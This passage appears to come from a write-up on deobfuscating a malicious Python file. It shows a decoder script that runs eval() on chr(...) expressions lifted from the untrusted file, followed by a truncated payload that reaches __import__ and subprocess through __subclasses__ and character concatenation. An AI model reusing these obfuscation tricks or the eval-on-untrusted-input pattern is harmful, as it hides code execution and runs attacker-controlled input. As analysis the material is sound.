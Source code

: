 ```
            expression = match.group(1)
            try:
                result = eval(expression)
                decoded_char = chr(result)
                decoded_count += 1
                return f"'{re.escape(decoded_char)}'"
            except Exception as e:
                # If there's an error, return the original string to avoid breaking the code
                return match.group(0)

        # Regular expression to find all occurrences of chr(...)
        pattern = r"chr\(([^)]+)\)"
        
        # Use re.sub() with the callback function to handle all replacements in one pass
        modified_content = re.sub(pattern, decoder_callback, content)

        return modified_content, decoded_count

    except FileNotFoundError:
        print(f"Error: The file '{file_path}' was not found.")
        return None, None
    except Exception as e:
        print(f"An unexpected error occurred: {e}")
        return None, None


decoded_content, decoded_count = decode_chr_expressions(original_file)

if decoded_content:
    # Print the summary of the process
    print("\n--- Decoding Summary ---")
    # A total count isn't as useful here as we're not iterating separately,
    # but we can print the number of successful decodes.
    print(f"Commands successfully decoded: {decoded_count}")
    
    # Save the decoded content to a new file named 'decoded1.py' (you can edit this to be the same file or if you want a new one with a different name)
    try:
        with open('decoded1.py', 'w') as new_file:
            new_file.write(decoded_content)
        print("\nDecoded content successfully saved to 'decoded1.py'")
    except Exception as e:
        print(f"Error writing to file 'decoded1.py': {e}")
```

With that, you are left with a smaller file 'decoded1.py' that now looks like this:

```
import collections
print({}.__class__.__subclasses__()[2].copy.__builtins__[{}.__class__.__subclasses__()[2].copy.__builtins__['c'+'h'+'r']({}.__class__.__subclasses__()[2].copy.__builtins__['_'+'_'+'i'+'m'+'p'+'o'+'r'+'t'+'_'+'_']('s'+'u'+'b'+'p'+'r'+'o'+'c'+'e'+'s'+'s').select.POLLIN^{}.__class__.__subclasses__()[2].copy.__builtins__['_'+'_'+'i'+'m'+'p'+'o'+'r'+'t'+'_'+'_']

...

.select.POLLRDNORM)).select.POLLRDNORM))
```
